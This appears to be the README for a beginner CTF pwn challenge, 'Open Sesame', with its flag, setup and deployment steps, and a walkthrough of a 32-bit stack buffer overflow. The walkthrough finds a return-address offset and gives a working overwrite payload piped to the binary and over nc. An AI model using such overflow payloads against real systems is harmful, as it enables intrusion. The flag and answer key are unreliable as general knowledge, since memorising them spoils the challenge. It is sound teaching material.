 # Open_Sesame

**Author:** Raed Fayad

**Category:** PWN

## Description

Open Sesame is a beginner-level PWN challenge that teaches classic stack-based buffer overflow. Players reverse a 32-bit Linux binary where input is read using gets(), allowing them to overwrite the return address and jump to a hidden print_access_logs() function. It's ideal as a first PWN task, with mitigations like stack canaries and PIE disabled. The challenge should be hosted via socat, and the binary provided to the players.

### Files

- [door_access](release_files/door_access) - The binary to exploit

### Host
Go through the [service depoloyment](#service-deployment) steps to launch the service, then connect to the service via:
```sh
$ nc <server_ip> 1337
```

## Part 1

**CTFd name:** Open Sesame

### CTFd Description

Your mission is to enter a locked ballot-counting room. Without a key card of your own, you must find another key card to open the door and get inside. Luckily, the admin interface of the door access system is accessible from the facility's network. Can you trick the system into giving you some recent key card access logs?

The flag is the UUID of the key card that was most recently granted access to the ballot-counting room.

Free hint - the door access system is a simple program that was compiled for Linux i386 architecture.

### Flag

<details>
<summary>(expand to read)</summary><br>

1a2b3c4d-5e6f-7a8b-9c0d-1e2f3a4b5c6e

</details>

### Walkthrough

<details>
<summary>(expand to read)</summary><br>

Use the radare2 image (or [install radare2 locally](https://rada.re/n/radare2.html)) to analyze the binary and find the location of the interesting functions, like `print_access_logs`:

```sh
$ docker run --tty --interactive --privileged --cap-add=SYS_PTRACE --security-opt seccomp=unconfined --security-opt apparmor=unconfined -v .:/server_files radare/radare2
r2@17ae27db2f9b:~$ cd /server_files/
r2@17ae27db2f9b:/server_files$ r2 door_access
[0x080490d0]> aaa
...
[0x080490d0]> afl
...
0x080491f6    3    142 sym.print_access_logs
...
[0x080490d0]> exit
```

Grab the address of the print_access_logs function convert it to little endian format, for example: `0x 08 04 91 f6` becomes `0x f6 91 04 08`, and then convert it to the hex format `b"\xf6\x91\x04\x08"`.

Then, you will need to find the offset of the return address in the stack. You can do this by writing a simple bash script that generates a payload of `A`s until the program crashes:

```bash
for i in $(seq 1 60); do
  python3 -c "print('A'*$i)" | ./door_access > /dev/null
  echo "Tried $i bytes"
done
```

Once you get a segfault, you know roughly the input size that caused it. This helps you approximate the overflow point. In this case, the program crashes when you enter 44 `A`s, you can then try an offset of 44 bytes, and then increase it by incrementes of 4 bytes until you find the exact offset.

The offset is 48 bytes, so you will need to enter 48 `A`s followed by the address of the print_access_logs function.

Then, if you are using an ubuntu amd64 machine or VM, use the following command to generate the payload and pipe it to the binary locally to test it (when testing locally, you won't be able to see the flag, but you will see a helpful error message if the exploit worked):

```sh
$ python3 -c 'import sys; sys.stdout.buffer.write(b"A"*48 + b"\xf6\x91\x04\x08")' | ./door_access
...
Almost there! Enter the same passcode on this challenge's server to reveal the logs.

```

Otherwise, if you are using a different architecture, or if you want to skip the local test, you can send the payload directly to the open_sesame challenge server:

```sh
$ python3 -c 'import sys; sys.stdout.buffer.write(b"A"*48 + b"\xf6\x91\x04\x08")' | nc < server_ip > < server_port >
Welcome to the Remote Door Access System!
The passcode that you have entered is being confirmed...
Access Denied! Try again.

Here are the most recent physical key card access logs:
2025-06-14 07:12:34 | CardID: 7e3f2c8e-1b2a-4c5d-9f6e-8a7b6c5d4e3f | Access: Granted | Door: Ballot Counting Room
2025-06-14 09:01:55 | CardID: 9f8e7d6c-5b4a-3c2d-1e0f-9a8b7c6d5e4f | Access: Granted | Door: Ballot Counting Room
2025-06-14 09:15:22 | CardID: 7e3f2c8e-1b2a-4c5d-9f6e-8a7b6c5d4e3f | Access: Granted | Door: Ballot Counting Room
2025-06-14 10:00:15 | CardID: 3e2f1c4d-5b6a-7c8d-9e0f-1a2b3c4d5e6f | Access: Denied  | Door: Ballot Counting Room
2025-06-14 10:13:12 | CardID: 1a2b3c4d-5e6f-7a8b-9c0d-1e2f3a4b5c6e | Access: Granted | Door: Ballot Counting Room
2025-06-14 11:42:11 | CardID: 2b3c4d5e-6f7a-8b9c-0d1e-2f3a4b5c6d7e | Access: Denied  | Door: Ballot Counting Room

Segmentation fault (core dumped)
```

The flag is `1a2b3c4d-5e6f-7a8b-9c0d-1e2f3a4b5c6e`.

</details>

## Setup instructions

### How to generate a new door_access binary file

1. Set up an ubuntu server with amd64 architecture (without any virtualization of architecture, meaning that the host machine must be amd64).
2. Install the required packages:

```sh
$ dpkg --add-architecture i386 && apt update && apt install -y gcc libc6-dev socat libc6:i386 gcc-multilib
```

2.1 Install [docker](https://docs.docker.com/engine/install/ubuntu/#install-using-the-convenience-script), and [docker-compose](https://www.digitalocean.com/community/tutorials/how-to-install-docker-compose-on-ubuntu-18-04#step-1-installing-docker-compose).

2.2 Disable ASLR (Address space layout randomization)

```sh
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

3. Copy the [server_files](/challenges/jeopardy/pwn/open_sesame/server_files) directory to the server. If the files are already in the server, make sure to remove the existing files before running the following:

```sh
$ scp -r < path-to-repo >/CS2025-NTL/challenges/jeopardy/pwn/open_sesame/server_files < user >@< server_ip >:~
# for example scp -r /Users/raedfayad/git/personal/CS2025-NTL/challenges/jeopardy/pwn/open_sesame/server_files vpcadmin@10.0.2.31:~
```

4. On the server, navigate to the directory where you copied the files, and build the binary:

```sh
$ cd ~/server_files
$ make build
```

5. Run the binary on the server to test it runs (just a sanity check):

```sh
$ cd ~/server_files
$ ./door_access
```

6. Go through the [service depoloyment](#service-deployment) so you are ready to test this binary.

7. On your machine, copy the generated binary from the server to your local machine, and provide it to the challenge participants:

```sh
$ scp < user >@< server_ip >:~/server_files/door_access < path-to-repo >/CS2025-NTL/challenges/jeopardy/pwn/open_sesame/server_files
# for example scp vpcadmin@10.0.2.31:~/pwn-challenge/door_access /Users/raedfayad/git/personal/CS2025-NTL/challenges/jeopardy/pwn/open_sesame/server_files
```

8. Go through the [challenge walkthrough](#walkthrough) to make sure the flag is still reachable.

### Service Deployment

1. On the ubuntu amd64 server, navigate to the directory where you copied the files, and run the docker image:

```sh
$ cd ~/server_files
$ make run
```

If you encounter issues, the service might be already running, so you can stop it first:

```sh
$ make stop
```
